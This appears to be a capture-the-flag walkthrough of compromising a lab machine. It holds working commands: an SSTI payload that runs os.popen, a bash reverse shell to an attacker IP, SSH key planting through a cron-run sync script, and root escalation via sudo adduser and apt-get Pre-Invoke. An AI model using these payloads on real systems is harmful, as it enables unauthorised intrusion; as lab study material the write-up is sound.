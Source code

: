 Skills:

- Applying brute force to discover valid credentials on a custom application [Python Scripting]
- Server Side Template Injection (SSTI) - Exploit the SSTI by calling subprocess.Popen
- Uncompiling pyc files with uncompyle6
- Python script analysis + Abusing cron job [User Pivoting]
- Abusing sudoers privilege in order to create a new user and read /etc/sudoers file by assigning --gid 0
- Creating a user that exists as described in the sudoers file but does not exist on the system
- Abusing sudoers privilege (apt-get) for the newly created user [Privilege Escalation]

After enumerate the victim machine, I checked port 31337 using netcat, which prompted me for a username and password, trying default credentials like guest:guest worked, but if you prefer, you can attempt to brute force the login panel by creating a bash script

This is a ticketing system application that updates information on the website on port 5000. The website uses werkzeug with python, allowing me to attempt a server side template injection exploit

Within the ticketing system application, I created a new ticket and used an SSTI payload:
```bash
>open
>Title: {{7*7}}
>Description: {{'7'*7*}}
```

Checking the website ,  the payload worked, knowing this We can try to execute commands. https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/#exploit-the-ssti-by-calling-ospopenread

```bash
>open
>Title: {{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
>Description: test
```

the command injection worked, now we can try to establish a reverse shell
```bash

#on my machine
nc -nlvp 1234

#on the application
>open
>Title: {{config.__class__.__init__.__globals__['os'].popen('bash -c "bash -i >& /dev/tcp/192.168.111.100/1234 0>&1"').read()}}
>Description: test
```

In this way we gain access to the victim machine
```bash
#check some permissions
>sudo -l --> nothing
>id --> nothing

#check for suid permissions
>find / -perm -4000 2>/dev/null --> nothing

#checking files
>/opt/ ls -la
>/opt/.syncer.cpython-38.pyc --> compiled python file

#checking process
>./pspy --> the user saint execute the syncer.py script
>

#decompiling the .pyc files
>Use uncompyle6
>uncompyle6 file.pyc
ç
#check the syncer.py 
#create a file
>/tmp/ 08-10-2023.config.json
> put inside:
{
	"URL": "http://192.168.0.100/authorized_keys",
	"Output": "/home/saint/.ssh/authorized_keys"
}

#on my machine
> ssh-keygen
> cat ~/.ssh/id_ed25519.pub > authorized_keys
> sudo python -m http.server 80
> ssh saint@192.168.0.105
#check permissions 
>saint: sudo -l --> the user saint can create users!
>sudo adduser kvzlx --gid 0 | in the sudoers file the user jason has privilege, but this user doesn't exist, so I can create it'
>sudo adduser jason --> create a user
>the user jason have root privilege on apt-get
>sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
```

Now we gain access as the user root.



